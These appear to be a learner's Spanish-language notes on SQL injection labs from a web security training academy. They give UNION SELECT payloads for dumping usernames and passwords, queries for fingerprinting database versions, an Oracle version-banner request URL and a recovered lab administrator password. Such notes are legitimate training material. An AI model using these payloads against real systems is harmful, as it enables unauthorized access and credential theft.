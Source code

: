 ```
SELECT * FROM products WHERE category = 'Gifts'UNION SELECT 88,'W51CBg',88--
```
No, si esta bien la comilla simple jejeje crei que se necesitaria comilla doble "

###Obtener datos interesantes
Suponiendo la siguiente consulta:
- La consulta original devuelve dos columnas, ambas pueden contener datos de cadena.
- El punto de inyección es una cadena entre comillas dentro de la clausula WHERE .
- La base de datos contiene una tabla llamada userscon las columnas username y password.
- El resultado de la consulta va a una tabla html


En este ejemplo, puede recuperar el contenido de la userstabla enviando la entrada:
```
' UNION SELECT username, password FROM users--
```

### Lab
EL nuevo lab 
-  La vulnerabilidad esta en el filtro de la categoria del producto
-  la base de datos continue una tabla llamada users xon las columnas de users y  password

Procedimiento
- Encontrar donde es inyectable - Listo 
- Identificar la candidad de campos - Son 2
- Identificar el tipo de camps - Son de tipo cadena
- Realizar la consulta de los usuarios -
```
'UNION SELECT username, password FROM users--
```
- Loguarse con las credenciales de administrator
```
administrator
f1vpyh0esuo1b2yglin0
```

### Examining the database in SQL injection attacks

Para explotar una inyección SQL  es necesario conocer la información de la base de datos, es incluye lo siguiente;
- Tipo y versión del software de la base de datos (SQL/NoSQL, MYSQL ver 1.2)
- Tablas y columnas de la base de datos (Inclusive las bases de datos que tiene almacenadas)

| Database | Query |
| --- | --- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

### Laboratorio version de oracle

Procedimiento
- Encontrar donde es inyectable - El mismo
- Identificar la candidad de campos  - Son 2 - recuerda usar FROM DUAL
- Identificar el tipo de camps  - Ambas varchar
- Realizar la consulta de la version de oracle - Selecciona el comando adecuado
- 
```
https://Personalid.web-security-academy.net/filter?category=Accessories%27UNION%20SELECT%20NULL,BANNER%20FROM%20v$version--

Depende la versión de oracle existen diferentes columnas, pero parece que el laboratorio busca de manera especifica este comando existen diferentes pero este es el que funciona

```